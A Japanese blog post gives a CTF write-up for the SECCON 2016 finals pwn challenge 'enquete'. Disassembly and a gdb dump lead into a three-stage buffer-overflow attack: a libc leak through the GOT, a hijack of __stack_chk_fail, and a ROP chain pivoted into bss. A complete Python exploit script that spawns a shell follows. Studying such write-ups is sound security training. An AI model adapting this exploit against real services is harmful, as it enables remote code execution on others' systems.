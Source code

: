 ```yaml
---
layout: post
title: SECCON 2016 FINALS writeup
---
```


elfでSECCON決勝に参加していました.
結果は23/24でしんどかったです.

サーバー参のwriteup欲しいけど見つからないので誰か教えてください...

enquete (pwn100) しか解けなかったけどwriteup.

![](https://tsunpoko.github.io/images/seccon2016finals_enquete.png)

2回の入力がある.
1回目の入力でBOFがあり,

{% highlight nasm %}
 80485ed:	e8 40 00 00 00       	call   8048632 <getaline>
 80485f2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80485f5:	89 44 24 0c          	mov    DWORD PTR [esp+0xc],eax
 80485f9:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80485fc:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048600:	c7 44 24 04 bb 87 04 	mov    DWORD PTR [esp+0x4],0x80487bb
 8048607:	08 
 8048608:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860f:	e8 bc fd ff ff       	call   80483d0 <dprintf@plt>
{% endhighlight %}

{% highlight shell %}
gdb-peda$ x/40xw 0xffffd3cc
0xffffd3cc:	0x41414141	0x00000000	0x00000000	0xffffd498
0xffffd3dc:	0xf7e41b74	0xf7fb93cc	0xffffd3fc	0x00000000
0xffffd3ec:	0xf7fb9000	0x00000000	0xf7fb9000	0x00000000
0xffffd3fc:	0x0622705a	0xffffd498	0xf7ff04c0	0xf7fb9000
0xffffd40c:	0xdf866000	0x00000000	0xf7e42016	0xffffd498
0xffffd41c:	0x0804859a	0x08048745	0xffffd44c	0xffffd44
{% endhighlight %}


{% highlight c %}
dprintf("Hi, %s\n%s\n>>", 0xffffd3cc, 0x08048745);
                         [user input]
{% endhighlight %}

getaline()直後に*(ebp+0x8)をeaxに入れて, それをdprintfの第3引数に指定しているのでここで任意のアドレスが読めます.

この場合*(ebp+0x8)は0xffffd420 -> 0x08048745です.

0xffffd420 - 0xffffd3cc = 84

{% highlight nasm %}
 8048614:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048617:	89 04 24             	mov    DWORD PTR [esp],eax
 804861a:	e8 13 00 00 00       	call   8048632 <getaline>
{% endhighlight  %}

2回目の入力で*(ebp+0xc)を引数としてgetaline()を呼んでいるので, ここを任意のアドレスにすればそこに書き込みが出来そうです.

攻撃の流れとして, 3ステージに分かれていて

[stage1]
任意のアドレスが読めるのでgotの値を呼んでinformation leakします.
ここで必ず__stack_chk_fail()に引っかかるので, __stack_chk_fail@gotをmainに向けます.

[stage2]
任意のアドレスが読めますが, もうlibcはleakしたので適当で良いです.
書き込み先をbssにして, rop chainを仕込みます.
__stack_chk_fail@gotはまだmainなので再度ret2vuln.

[stage3]
読むアドレスは適当です.
__stack_chk_fail@gotにleave; ret;のrop gadgetを書き込みます.
この際にebpには, bss - 4のアドレスを積んでおきstack pivotでespをrop chainが積まれているbss領域に向けます.
__stack_chk_fail()に引っかかるので, rop発動で終了です.


以下exploit

{% highlight python %}
from No___Op import *

if len(sys.argv) > 1:
    target = '10.100.6.1:28353'
    offset = {
        'rand': 0x0034010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }


else:
    target = 'localhost:4444'
    offset = {
        'rand': 0x34010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }

c =  Pwning( target )

got_chkfail = 0x804a018
addr_bss = 0x0804a034 + 0x800
addr_main = 0x0804852d
got_rand = 0x804a028
leave_ret = 0x80485c0

########stage1
pay1  = 'a' * 84
pay1 += p32(got_rand)
pay1 += p32(got_chkfail)

pay2 = p32(addr_main)

c.sendall(pay1)
c.sendall(pay2)

info('stage1')

c.read_until('a' * 84)

c.recv(9)

libc_rand = u32(c.recv(4))

libc_base = libc_rand - offset['rand']
libc_system = libc_base + offset['system']
libc_binsh = libc_base + offset['/bin/sh']

succ(hex(libc_base))
succ(hex(libc_system))
succ(hex(libc_binsh))

########stage2

pay1  = 'b' * 84
pay1 += p32(libc_binsh)
pay1 += p32(addr_bss)

pay2  = ''
pay2 += p32(libc_system)
pay2 += 'kasu'
pay2 += p32(libc_binsh)
pay2 += 'c' * (64 - len(pay2))
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage2')


########stage3

pay1  = 'd' * 76
pay1 += p32(addr_bss - 4) #ebp
pay1 += p32(leave_ret) #eip
pay1 += p32(libc_binsh)
pay1 += p32(got_chkfail)

pay2  = p32(leave_ret)
pay2 += 'BBBB'
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage3')

c.shell()
{% endhighlight %}

* * *

完全に知能不足を感じ正直悔しい.

